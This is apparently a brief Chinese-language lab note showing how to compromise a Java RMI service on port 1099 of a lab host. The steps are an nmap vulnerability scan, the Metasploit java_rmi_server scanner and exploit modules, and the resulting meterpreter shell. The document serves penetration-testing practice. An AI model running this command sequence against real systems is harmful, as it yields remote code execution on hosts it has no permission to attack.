









# 1099_java-rmi

nmap扫描

> nmap -v -T4 -sV -p 1099 --version-all --script vuln 10.10.10.6

得到漏洞信息

使用msfconsole

> search java_rmi_serve

选择辅助脚本

> use auxiliary/scanner/misc/java_rmi_server

设置目标靶机

> set RHOSTS 10.10.10.6

执行

> exploit

选择攻击模块

> use exploit/multi/misc/java_rmi_server

查看设置

> options

设置目标ip

> set RHOSTS 10.10.10.6

执行

> exploit

 得到meterpreter的shell

